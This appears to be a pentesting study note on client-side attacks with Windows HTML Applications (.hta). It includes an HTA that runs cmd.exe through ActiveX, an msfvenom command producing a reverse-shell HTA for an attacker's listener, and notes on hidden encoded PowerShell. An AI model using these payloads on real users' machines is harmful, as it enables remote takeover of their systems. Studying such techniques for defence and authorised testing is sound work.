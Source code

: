 
# Client-Side-Attacks-HTML-Applications

## Leveraging HTML Applications
[HTML Applications](https://docs.microsoft.com/en-us/previous-versions//ms536496(v=vs.85)?redirectedfrom=MSDN), with file extension .hta can be excuted on a Windows Client with the `mshta.exe`. This is to allow Internet Explore to arbitrarily execute applications within itself rather than downloading and manual executing a remote executable. An attacker can run that within the context of the user to avoid security restrictions. [ActiveX](https://en.wikipedia.org/wiki/ActiveX) is deprecated software that found on legacy systems was controversial and [historically insecure](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=ActiveX) comparatively to other technologies, thus low hanging RCEs. Whereas [Edge](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=Edge) still vulnerable just less insecure also actively researched due to modern widespread default Windows Browser. HTML application are HTML with [[Useful_Javascript]] or [[Useful_Visual_Basic_for_Applications]], HTML application are excuted outseide the browser and can be used to execute legacy and dangerous features blocked by the Browser.

## ActiveX

ActiveXObjects can provide access to underlying OS commands, using Windows Script Host functionality or WScript to access the Windows Script Host Shell object. This can  be

```html

<html>
<head>

<script>

  var c= 'cmd.exe'
  new ActiveXObject('WScript.Shell').Run(c);
  
</script>

</head>
<body>

<script>
  
  self.close(); // Close addition window behind command prompt
    
</script>

	
</body>
</html>
```

Users that broswer to this page to access the file, IE pops: `Open, Save, Save As`, selecting `Open` will prompt a `Allow || Don't Allow` options to default enabled sandbox called `Protected Mode` *"A website wants to open web content using this program on your Computer"* stating that Name: Microsoft (R) HTML Application host, Publisher: Microsoft Windows. `Allow` will permit execution. Using MSFvenom we can turn the script above into an actual attack with reverse_shell.hta. 
```bash
sudo msfvenom -p windows/shell_reverse_tcp LHOST=$IP LPORT=$PORT -f hta-psh -o /var/www/html/reverse_shell.hta
```

This payload adds powershell commands to  `-NoProfile`, `WindowStyle hidden` and `-EncodedCommand`. The reason behind the `EncodedCommand` existing in Powershell is to not have to deal with escape characters, maybe you want automate a script in the background with `WindowStyle hidden`like run patching or AD policy updates and `-NoProfile` becuase maybe you just want to do some cli maths and don't want or need to authenicate yourself to do maths. All of these properties of powershell can be used, like many other for nefarious reasons.


## MSHTML.dll 

MSHTML.dll one of many [[Dynamic-Link-Libraries]], which is specifically responsible as the Browser Engine, used regardless of IE being on the machine. From [LesFerch's Amazing Answer on Windows Forums](https://answers.microsoft.com/en-us/microsoftedge/forum/all/will-mshtaexe-default-to-edge-when-opening-an-hta/e6b278e3-e7d4-48a4-aff9-20e317e25a89):

*"Contrary to popular belief, Internet Explorer is still installed in Windows 11 and will remain in Windows 10. The only change is that in Windows 11 (and Windows 10 sometime after June 15, 2022) IE cannot be easily launched by the end-user. That is, attempting to directly run **iexplore.exe** will run **Edge** instead."*

IE can still be run via scripts using_ **_IE COM automation_**_. For example (LaunchIE.vbs):_
```vbscript
Set oIE = CreateObject("InternetExplorer.Application")

oIE.Visible = True

oIE.Navigate "about:blank" 'put your URL of choice here"
```

*"Code that uses **IE COM automation** will open IE and work as usual. Note that, for Windows 11, it must be build **22000.348** or higher (IE COM automation was broken in Windows 11 prior to the Nov 2021 update). Using Windows 11 (or Windows 10 after IE is "disabled"), any link in an **HTA**, using code such as **href** or **window.open,** will open in **Internet Explorer**. Using a computer, where Internet Explorer has been _completely removed_ via **Control Panel** **Add/Remove Features**, any link in an **HTA**, using code such as **href** or **window.open,** will not work. The **href** will do nothing and the **window.open** will generate an error. Therefore, you should NOT remove IE from Windows 10 or Windows 11. Web pages that are opened via an **iframe** in an **HTA** will continue to work in all cases. Unfortunately, many external web sites don't allow their content to be loaded in an iframe."*

## References

[ActiveX Wiki](https://en.wikipedia.org/wiki/ActiveX) 
[LesFerch's Amazing Answer on Windows Forums](https://answers.microsoft.com/en-us/microsoftedge/forum/all/will-mshtaexe-default-to-edge-when-opening-an-hta/e6b278e3-e7d4-48a4-aff9-20e317e25a89)
[CVE ActiveX](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=ActiveX)
[CVE Edge](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=Edge) 